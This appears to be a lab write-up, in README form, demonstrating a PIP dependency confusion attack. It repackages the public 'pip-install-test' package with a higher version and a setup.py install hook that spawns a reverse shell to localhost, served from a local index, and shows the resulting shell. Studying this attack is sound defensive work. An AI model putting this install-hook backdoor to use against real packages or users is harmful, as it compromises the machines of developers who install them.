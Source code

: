 # PIP dependency confusion
![conf](confusion.png)


## Theory
First of all, you are invited to read this great resource: 
https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610
## Lab setup
- Debian GNU/Linux 12 (bookworm) x64
- Python 3.11.2 
- Python virtualenv
- pip 23.0.1

## POC
We are going to use [pip-install-test package](https://pypi.org/project/pip-install-test), the current version is 0.5.
First of all activate a virtual enviroment:

    python3 -m venv dep-conf
    source dep-conf/bin/activate
    (dep-conf) user@xxxxx:~$ 

Proceed to install the test package:

     pip install pip-install-test -vv
     ...
     Successfully installed pip-install-test-0.5

To perform our attack we must set a local pip repo. This is a very easy task: https://packaging.python.org/en/latest/guides/hosting-your-own-index.
Here I'm going just to create the required folder structure, then I will use Python built-in web server to host the malicious package. My root web folder structure will be the following:

    piprepo.local/
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

You can download the package from this repo and serve it directly using your web server, but for the sake of learning, we are going to recreate the package from scratch. 
Once you have decompressed the archive, you will have the following directory structure:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── pip_install_test.egg-info
        │   ├── dependency_links.txt
        │   ├── not-zip-safe
        │   ├── PKG-INFO
        │   ├── SOURCES.txt
        │   └── top_level.txt
        ├── PKG-INFO
        ├── README.rst
        ├── setup.cfg
        └── setup.py

We can delete some stuff that actually we don't need, since they will be recreated:

        cd pip-install-test-0.6/
        rm -r setup.cfg pip_install_test.egg-info

Now our package source folder structure should be:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── PKG-INFO
        ├── README.rst
        └── setup.py

We are interested in abusing the set-up package procedure, so our payload has to be inserted into setup.py:

       ...
            
        class PostInstallCmd(install):
            def run(self):
                install.run(self)
                print ("Hello, I'm going to confuse U...")
                s=socket.socket()
                s.connect(("127.0.0.1",9001))
                [os.dup2(s.fileno(),f)for f in(0,1,2)]; pty.spawn("sh")
        
        setup(name='pip-install-test',
              version='0.6',
              description='A minimal stub package to test success of pip install',
              long_description=long_description,
              author='Simon Krughoff',
              author_email='krughoff@lsst.org',
              license='MIT',
              packages=['pip_install_test'],
              zip_safe=False,
              cmdclass={
                    'install': PostInstallCmd
                }
              )
The interesting part is the cmdclass attribuite object, that will execute the actual payload, that of course is a reverse shell, to localhost in this case.

## Perform the attack
First create the package (you know that to confuse pip we have to serve a more recent version, here I just incremented it to 0.6). From inside the root package source directory execute:

    pip-install-test-0.6$ python3 setup.py sdist
    ...
    creating dist
    Creating tar archive
    removing 'pip-install-test-0.6' (and everything under it)

You will find the created archive inside the dist folder:

    pip-install-test-0.6$ ls dist
        pip-install-test-0.6.tar.gz

Now we have to move the package inside the web root folder, taking care to respect the required structure for the local pip repository:

    mv dist/pip-install-test-0.6.tar.gz /home/user/piprepo.local/pip-install-test

Then you should have the following structure:

    cd /home/user/piprepo.local/
    ~/piprepo.local$ tree
    .
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

From here we will execute our web server:

    ~/piprepo.local$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

Now we have to trick pip to get our malicious package, we can just update pip-install-test, saying to pip to look in our local repo for the new version. Before to proceed start a nc listener:

     nc -lvp 9001
    listening on [any] 9001 ...

Then from the virtual enviroment perform the package update:

    (dep-conf) user@xxxxx:~$  pip3 install pip-install-test --trusted-host <your_hostname> --index-url http://<your_hostname>:8000 -vv -U
    ...
    Looking up "http://xxxxx:8000/pip-install-test/pip-install-test-0.6.tar.gz" in the cache
    No cache entry available
    ...
    http://xxxxx:8000 "GET /pip-install-test/pip-install-test-0.6.tar.gz HTTP/1.1" 200 1702
    ...
    Attempting uninstall: pip-install-test
    Found existing installation: pip-install-test 0.5
    Uninstalling pip-install-test-0.5:
    ...
    Copying pip_install_test.egg-info to /home/user/dep-conf/lib/python3.11/site-packages/pip_install_test-0.6.egg-info
      running install_scripts
      writing list of installed files to '/tmp/pip-record-8vjjx4uj/install-record.txt'
      Hello, I'm going to confuse U...

Then we shoul get a shell:

    ...
    connect to [127.0.0.1] from localhost [127.0.0.1] 37186
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ id
    id
    uid=1000(user) gid=1000(user) groups=1000(user),995(qubes)
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ 



    
    
        
        

  
    
